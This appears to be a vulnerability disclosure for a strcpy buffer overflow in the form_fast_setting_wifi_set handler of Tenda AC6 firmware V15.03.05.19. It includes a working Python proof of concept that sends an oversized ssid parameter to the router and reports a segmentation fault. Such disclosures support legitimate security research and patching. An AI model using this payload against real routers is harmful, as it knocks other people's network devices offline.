






## Tenda AC6 V15.03.05.19 firmware has a buffer overflow vulnerability in the form_fast_setting_wifi_set function

A serious buffer overflow vulnerability exists in the `form_fast_setting_wifi_set` function of the Tenda AC6 router firmware version V15.03.05.19.  
An attacker can exploit improper bounds handling in the `strcpy` function within this code to overflow a fixed-size buffer. Successful exploitation allows triggering a Denial of Service (DoS) condition or crashing the target service, potentially leading to persistent device instability.



### POC
```python
import requests

def create_payload():
	buffer_size = 0x1000
	payload = b"A" * buffer_size
	return payload

def send_payload(url, payload):
    params = {'ssid': payload}
    response = requests.get(url, params=params)
    
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    url = 'http://192.168.52.138/goform/fast_setting_wifi_set'
    payload = create_payload()
    send_payload(url, payload)

```







Achieved Result: Segmentation Fault



